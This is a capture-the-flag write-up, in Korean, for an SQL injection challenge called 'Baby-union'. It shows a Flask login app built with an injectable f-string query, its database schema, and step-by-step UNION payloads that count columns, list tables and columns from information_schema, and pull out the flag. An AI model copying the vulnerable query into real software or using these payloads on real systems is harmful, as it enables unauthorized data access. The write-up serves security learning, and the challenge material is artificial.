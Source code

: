 # Baby-union

SQL injection

```python
import os
from flask import Flask, request, render_template
from flask_mysqldb import MySQL
  
app = Flask(__name__)
app.config['MYSQL_HOST'] = os.environ.get('MYSQL_HOST', 'localhost')
app.config['MYSQL_USER'] = os.environ.get('MYSQL_USER', 'user')
app.config['MYSQL_PASSWORD'] = os.environ.get('MYSQL_PASSWORD', 'pass')
app.config['MYSQL_DB'] = os.environ.get('MYSQL_DB', 'secret_db')
mysql = MySQL(app)
  
@app.route("/", methods = ["GET", "POST"])
def index():
	  
	if request.method == "POST":
		uid = request.form.get('uid', '')
		upw = request.form.get('upw', '')
		if uid and upw:
			cur = mysql.connection.cursor()
			cur.execute(f"SELECT * FROM users WHERE uid='{uid}' and upw='{upw}';")
			data = cur.fetchall()
			if data:
				return render_template("user.html", data=data)
			  
			else: return render_template("index.html", data="Wrong!")
		  
		return render_template("index.html", data="Fill the input box", pre=1)
	return render_template("index.html")
  
 
if __name__ == '__main__':
	app.run(host='0.0.0.0')
```


```sql
CREATE DATABASE secret_db;
GRANT ALL PRIVILEGES ON secret_db.* TO 'dbuser'@'localhost' IDENTIFIED BY 'dbpass';

USE `secret_db`;
CREATE TABLE users (
	idx int auto_increment primary key,
	uid varchar(128) not null,
	upw varchar(128) not null,
	descr varchar(128) not null
);
  
INSERT INTO users (uid, upw, descr) values ('admin', 'apple', 'For admin');
INSERT INTO users (uid, upw, descr) values ('guest', 'melon', 'For guest');
INSERT INTO users (uid, upw, descr) values ('banana', 'test', 'For banana');

FLUSH PRIVILEGES;
  
CREATE TABLE fake_table_name (
	idx int auto_increment primary key,
	fake_col1 varchar(128) not null,
	fake_col2 varchar(128) not null,
	fake_col3 varchar(128) not null,
	fake_col4 varchar(128) not null
);
  
INSERT INTO fake_table_name (fake_col1, fake_col2, fake_col3, fake_col4) values ('flag is ', 'DH{sam','ple','flag}');
```

1. 로그인 되는 데이터 확인
	1. admin, apple
	2. guest, melon
	3. banana, test
2. sql injection 되는지 확인
	1. `cur.execute(f"SELECT * FROM users WHERE uid='{uid}' and upw='{upw}';")`
		- 해당 코드에서 sql injection 가능
3. 컬럼 수 확인 
	1. secret_db 에서 4개 컬럼이 있지만 실제로도 같은지 확인
	2. `admin' order by '1';--`
	3. 에러뜰때까지 숫자 증가
	4. ‘5’에서 에러 생기므로 실제로도 4개 컬럼 존재함
4. union 해서 값이 읽히는지 확인
	1. `admin' union select '1','2','3', @@version;--`
		- user column 에 맞게 union 사용
	2. ![union-test-1](images/Hello%20admin.png)
5. table 이름 확인
	1. `*' or 1 union select "1", "2", "3", table_name from information_schema.tables ;--`
	2. ![union-tablename](images/Pasted%20Graphic%201.png)
	3. users, onlyflag 확인 가능
6. onlyflag 내 컬럼 확인
	1. `*' or 1 union select "1", "2", "3", column_name from information_schema.columns where table_name='onlyflag' ;--`
	2. ![union-onlyflag](images/description.png)
	3. idx(idx), sname(fake_col1), svalue(fake_col2), sflag(fake_col3), sclose(fake_col4)
7. flag 확인
	1. `*' or 1 union select svalue, sflag, "3", sclose from onlyflag;--`
		- `INSERT INTO fake_table_name (fake_col1, fake_col2, fake_col3, fake_col4) values ('flag is ', 'DH{sam','ple','flag}');`
		- 필요한 컬럼은 fake_col2, fake_col3, fake_col4 이므로 보이는 컬럼에 맞게 union 사용
	2. ![answer](images/Pasted%20Graphic%204.png)